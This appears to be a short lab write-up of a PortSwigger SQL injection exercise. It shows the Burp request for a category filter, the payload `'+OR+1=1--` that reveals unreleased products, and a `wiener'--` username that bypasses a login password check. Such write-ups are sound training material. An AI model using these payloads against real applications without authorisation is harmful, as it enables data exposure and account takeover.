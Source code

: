 ```yaml
---
description: WHERE clause allowing retrieval of hidden data
---
```


# 1e1 - SQL injection vulnerability allowing retrieval of hidden data \[PortSwigger Lab]

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

### Solution:

{{< figure src="/.gitbook/assets/Pasted image 20240719185908.png" alt="" >}}

So taking this application into BurpSuite and selecting a category "Pets" gives me the following request

`GET /filter?category=Pets HTTP/2`

So what should I inject here to cause the following SQL query to malfunction?

`SELECT * FROM products WHERE category = 'Pets' AND released = 1`

So basically, modifying the original `GET /filter?category=Pets HTTP/2` to `GET /filter?category=Pets'+OR+1=1--' HTTP/2` causes to perform the following SQL query

`SELECT * FROM products WHERE category = 'Pets' OR 1=1-- AND released = 1`

meaning that everything will be displayed since `1=1` is TRUE and after that everything is ignored.

***

Imagine another scenario where an application lets user submit their credentials `wiener:peter`. SQL query might look like this

`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

if the query returns the details the login was seccessful. otherwise, it rejected.

an attacker might be able to login as any user without the need for a password. this can be done using `--` sequence in `WHERE` clause where password is checked. for example submitting the username `wiener'--` would produce the following SQL query

`SELECT * FROM users WHERE username = 'wiener'--' AND password = ''`

successfully logging in a user.
